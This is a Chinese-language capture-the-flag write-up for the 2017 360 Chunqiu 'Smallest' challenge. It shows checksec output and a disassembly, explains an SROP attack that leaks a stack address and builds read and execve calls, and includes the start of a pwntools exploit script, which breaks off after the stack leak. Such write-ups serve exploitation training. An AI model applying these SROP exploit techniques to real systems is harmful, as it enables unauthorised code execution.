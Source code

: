 ```bash
$ checksec ./smallest
[*] '/home/beale/SROP/2017-360Chunqiu-Smallest/smallest'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Analysis

2017 年 360 春秋杯的 Smallest 可以用 SROP 实现利用。程序由汇编实现，整体只有几条语句：

```bash
$ objdump -d ./smallest -M intel

./smallest:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:	48 31 c0             	xor    rax,rax
  4000b3:	ba 00 04 00 00       	mov    edx,0x400
  4000b8:	48 89 e6             	mov    rsi,rsp
  4000bb:	48 89 c7             	mov    rdi,rax
  4000be:	0f 05                	syscall
  4000c0:	c3                   	ret
```

可以看到 `4000be` 处的是 `syscall ; ret`，可以作为利用。而整个程序，是实现了一个 read 的系统调用，总共读 0x400 个字节到栈上。利用方法是先泄露出一个栈上的地址，然后通过 SROP 构造一个 read 调用往这个已知的地址上写数据，并再次利用 SROP 构造一个 execve 的调用；第二种方法是使用 mprotect 将不可执行的栈改为 rwx，然后执行 shellcode。

## Exploit

脚本如下：

```python
#!/usr/bin/env python
#-*- encoding=utf-8 -*-
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
#context.terminal = ['lxterminal', '-e']

p = process('./smallest')
elf = ELF('./smallest')

#gdb.attach(p)

main_addr = 0x4000b0
syscall_addr = 0x4000be

payload = p64(main_addr) * 3 # 栈上放3个main的地址，第1个main用来修改rax，第2个main用来泄漏栈，第3个main为了之后的输入
raw_input('@main*3')
p.send(payload)

payload = '\xb3' # 修改第2个main的地址为0x4000b3，同时可以将rax和rdi设置为1，可以泄漏栈的地址
raw_input('@leak stack')
p.send(payload)
p.recv(8)
stack_addr = u64(p.recv(8))
```